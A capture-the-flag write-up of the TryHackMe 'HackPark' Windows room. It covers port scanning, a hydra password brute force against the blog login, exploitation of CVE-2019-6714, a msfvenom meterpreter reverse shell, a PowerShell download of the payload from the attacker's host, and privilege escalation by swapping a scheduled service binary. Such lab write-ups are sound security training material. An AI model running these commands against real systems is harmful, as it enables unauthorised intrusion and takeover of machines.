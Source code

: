 ```yaml
---
title: HackPark - Easy THM
date: 2023-12-06 11:34:29 +/-0800 
categories: [writeup, tryhackme] 
writeup: :title
permalink: /hackpark 
tags: [thm, medium, writeup, windows, hydra, rce, metasploit]
---
```


- OS: windows
- Difficulty: easy
- Author: talace

## Scanning 👀
### threader3000.py
```
Port 80 is open
Port 3389 is open
```
### Nmap scan
```
nmap -p80,3389 -sV -sC -T4 -Pn -oA 10.10.229.26 10.10.229.26

PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Exploit ⚒️
### Brute force w/ hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.229.26  http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=HO0GkKGhqvanRz8QFeEDnNXtpYtrhxuJvR8jiXGCdzebR5ZKml6%2FQmm8Pr9IQ09Me06CBXD36YPshvECILNgSqaMd2cVEox7T6T%2BqPD%2FwGwQA%2B6ZdW1w8y7BMfNh3Hv9lMtLWs3hYIywZDzxnv7QUGn00fE0YVbK4UBIFNBG5QO0XLreqpuIKgC4Xstaaqfpd%2Bc4osXi0a6Dcox3qv3ZxW3XXpIDIdR85zru8zWcEBL30mwv9u64TXA8JBhN%2FCMQRNkiyWJMffQH%2FS0LK%2FX5cIraHf1kk%2BVtzdP2ruYPPDdz8YCrrKsibTMiWw6xQzKR3QIQdndxtyz94k6Q1cE90hAbH00F9OnMlWEbrmILfyga42Pg&__EVENTVALIDATION=j4urGc3uiZQ8Win7%2F%2F3uenmwf3nfBWF2r5tOm%2Fu6j5vvS0Sog7zxLA0VaodEtKzXPWYhE8AHdM%2BgtMbniCLTx2hQlp7NQPM89GbqrSf6WQSF%2B4BS8QHYzJRYrLSHcA4imlN%2BrIUS%2Beeq8ftqW5oAs7J4J2PSVcA5xE3ZFp0qr2zu03dm&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

### Enumeration of WebApp

I'm able to retrieve the version of the WebApp

With that i've found the CVE-2019-6714
### Exploit of WebApp - [CVE-2019-6714]
First get access on a post
Modify it and click on "add a file"
Configure the LHOST and LPORT
Put the payload in it with the name: PostView.ascx
Open your listener to 4444
Access to the Path **"/?theme=../../App_Data/files"**
## Foothold 🐼

Now that we got an access, let's get a more stable one with msfvenom.

##### 1. Generate our payload
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.138.226 LPORT=4444 -f exe > pwn.exe
```
##### 2. Open a webserver with python 
```
python3 -m http.server 80
```
##### 3. transfer the file into victime machine
```
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```
##### 4. Open a listener with metasploit and configure it 
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LHOST 10.10.10.10

set LPORT 4444

run
```
##### 5. Now lunch the payload in the victime machine and get access to the machine!
```
.\pwn.exe
```
## Privilege escalation 👺
Find a interesting services
```
SystemScheduler
```

Let's have a look at the log file
```
cd c:\Program Files (x86)\SystemScheduler\Events
```
We found that the Message.exe is running as Administrator by this service.
Let's replace it and use it as our escalation 😼

##### 1. Rename the file
```
mv Message.exe Message.bak
```
##### 2. Transfer my file and rename into Message.exe
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

##### 3. Put my session meterpreter in background, run again the listener and wait...

**Yes, we have our session! Now let's retrieve some flag!**
```
cat C:\Users\jeff\Desktop\user.txt
cat C:\Users\Administrator\Desktop\root.txt
```

